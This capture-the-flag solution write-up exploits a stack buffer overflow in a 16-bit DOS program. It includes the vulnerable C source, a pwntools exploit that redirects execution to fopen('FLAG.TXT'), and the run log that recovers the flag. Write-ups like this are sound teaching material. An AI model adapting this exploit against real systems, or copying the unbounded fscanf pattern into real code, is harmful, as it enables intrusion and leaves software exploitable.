


# Pwn From the Past &mdash; Solution

The challenge is a compiled C program that reads a string from the file `input.txt` and writes it back to `output.txt`. The flag is located in a file `flag.txt` placed in the same directory.

The string from `input.txt` is read into a local variable with no bounds checking, so the binary is wide open to a stack-based buffer overflow attack.

```c
// Built using Borland C++ 3.0 -- still the best IDE produced by humankind.
// https://winworldpc.com/download/52dfb385-9ba2-11e9-ab10-fa163e9022f0
//
// bcc -v CHALL.CPP
//

#include <stdio.h>

int main() {
  char name[32];
  FILE *input = fopen("input.txt", "rt");
  FILE *output = fopen("output.txt", "wt");

  if (!input) {
    printf("Error opening input file!");
    return 1;
  }
  if (!output) {
    printf("Error opening input file!");
    return 1;
  }

  fscanf(input, "%[^ ]s", name);
  fprintf(output, "Hello %s\n", name);

  fclose(input);
  fclose(output);

  return 0;
}
```

The twist is that the binary is compiled for [MS DOS](https://en.wikipedia.org/wiki/MS-DOS) -- the most popular operating system in the 80's and 90's. In this challenge, the binary is executed within the [DOSBox](https://www.dosbox.com/) emulator.

The modern tooling will not help us here, but no need to worry -- the development tools of the past century in many aspects match and even outshine todays tools. The Borland C++ 3.0 suite, mentioned in the comments, comes equipped with [Turbo Debugger](https://en.wikipedia.org/wiki/Borland_Turbo_Debugger), which is all we'll need for this challenge.

After figuring out how to install software in DOSBox, firing up the Turbo Debugger and stepping through the program we see that, although we're dealing with 16-bit architecture, the basic concepts are essentially the same as in 32-bit and 64-bit x86. In particular, call stack functions the same, and we can overwrite the return address by overflowing a local-variable buffer. Also, [cdecl](https://devblogs.microsoft.com/oldnewthing/20040102-00/?p=41213) calling convention is used --- for example, in the `fopen("input.txt", "rt")` call displayed below, the arguments are pushed to stack right to left before calling `fopen`.



Many different exploits are possible, but the most straightforward approach is to make use of the code already there in the binary. Like in [return-to-libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc) attacks, we overflow the stack so that the execution jumps back to the `fopen` call at `0x02a1` with the parameter on the top of the stack pointing to `flag.txt` instead of `input.txt`. The solution code below constructs one such payload.

```python
#!/usr/bin/env python3

from pwn import *

def conn():
    if args.REMOTE:
        p = remote('localhost', 3003)
    else:
        p = process('./server.py')
    return p

fopen_input = 0x02a1
data_rt = 0x00b4
data_flag = 0x003e

payload = b'a'*0x22 # filler
payload += pack(fopen_input, 16) # return address, will jump to fopen call in main
payload += pack(data_flag, 16) # first fopen arg, points to FLAG.TXT injected below
payload += pack(data_rt, 16) # second fopen arg , points to existing string rt
payload += b'x'*0x40 # filler
payload += b'FLAG.TXT\x00' # filename

p = conn()
p.sendlineafter(b':', base64.b64encode(payload))
p.recvuntil(b'OUTPUT.TXT:')
data = p.recvline()
print(base64.b64decode(data))
```

The code is complied for the small [memory model](https://devblogs.microsoft.com/oldnewthing/20200728-00/?p=104012), and data segment `ds` and stack segment `ss` are the same. Hence, overflowing the stack pointer puts our string `FLAG.TXT` in the data segment --- this is not really required for this exploit to work but it's still neat. Notice that it is harder to execute shellcode, since the stack segment `ss` and the code segment `cs` are different.

The CPU state right before the `main` function exit is displayed below. Note that Turbo Debuger displays the stack "upside down".



Now the execution will complete and the contents of `flag.txt` will be copied to `output.txt`.

```bash
$ python3 solve.py REMOTE DEBUG
[+] Opening connection to localhost on port 3003: Done
[DEBUG] Received 0x28 bytes:
    b'Enter contents for INPUT.TXT (base64): \n'
[DEBUG] Sent 0x99 bytes:
    b'YWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYaECPgC0AHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHhGTEFHLlRYVAA=\n'
[DEBUG] Received 0x43 bytes:
    b'Running /usr/bin/dosbox -c MOUNT C ./run/tmpq1zi1dc6 -c C:\\RUN.BAT\n'
[DEBUG] Received 0x4a bytes:
    b'Your OUTPUT.TXT: SGVsbG8gVEJUTHt5MHVfazFkNV82MzdfMGZmX215X2w0d24hfQ0KDQo=\n'
b'Hello TBTL{y0u_k1d5_637_0ff_my_l4wn!}\r\n\r\n'
[*] Closed connection to localhost port 3003
```
